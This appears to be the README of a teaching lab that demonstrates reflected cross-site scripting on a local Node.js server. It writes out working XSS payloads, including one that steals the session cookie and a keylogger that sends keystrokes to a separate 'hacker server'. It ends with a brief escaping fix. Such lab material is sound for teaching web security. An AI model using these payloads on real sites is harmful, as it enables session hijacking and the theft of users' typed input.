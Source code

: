 # Cross-site Scripting (XSS)
Cross-site scripting vulnerabilities in action.

## Requirements
* [Node.js](https://nodejs.org/en/):
  * Mac/Linux - Use [nvm](https://github.com/creationix/nvm) to install node

## Getting Started
Mac users, open Terminal.
In your terminal program, use git to download the project:
```bash
git clone https://github.com/fnev081299/CT6043_XSS.git
```

Go to xss directory:
```bash
cd xss
```

Install dependencies using npm:
```bash
npm install
```

Run the local web server using Node.js:
```bash
node server.js
```
If successful, message: `Server at localhost:3000` is shown. The server is is now listening for requests at [localhost:3000](http://localhost:3000/).

## Test the server site:
Enter something in the textbox then press enter. Notice how the search query you entered is shown in the page.


## XSS:
[OWASP](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) for more information.


## Testing:
Open the developer tools in browser and open the "Console" sub-tab.

Copy/paste and run:
```js
encodeURIComponent('<img src="does-not-exist" onerror="alert(\'hi!\')">');
```

Paste the output into the address bar:
```
http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('Potential XSS!')%22%3E
```
Or click [this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert('Potential XSS')%22%3E).

You should see an alert :: "Potential XSS!".


## Vulnerability
Open the "Application" sub-tab in your browser's developer tools. Under "Storage" -> "Cookies", click "localhost:3000" to show the cookies being saved by the browser for this website.

The cookie named "connect.sid" is a session cookie set by the local web server. Repeat the steps from the "Testing" section, but with:
```html
<img src="does-not-exist" onerror="alert(document.cookie)">
```
Encode and use, or [use this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E).

The session cookie is printed in an alert pop-up.

Start the "Hacker Server":
```bash
node hacker_server.js
```

Steal the session cookie:
```html
<img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">
```
Encode the above HTML and use it as the search query, or [try this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E).

Check the terminal window of the hacker server for the view of the cookie. 

Key-logger:
```html
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```
Encode the above HTML and use, or [use this link](http://localhost:3000/?q=%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E).

## Mitigation
At the root, the XSS vulnerability is caused by inserting unsafe ("unescaped") HTML. In the `public/index.html` file, change the "Results" (the `q` parameter) strictly as text content. Uncomment the safe "Results" and comment out the other to see the secure versrion.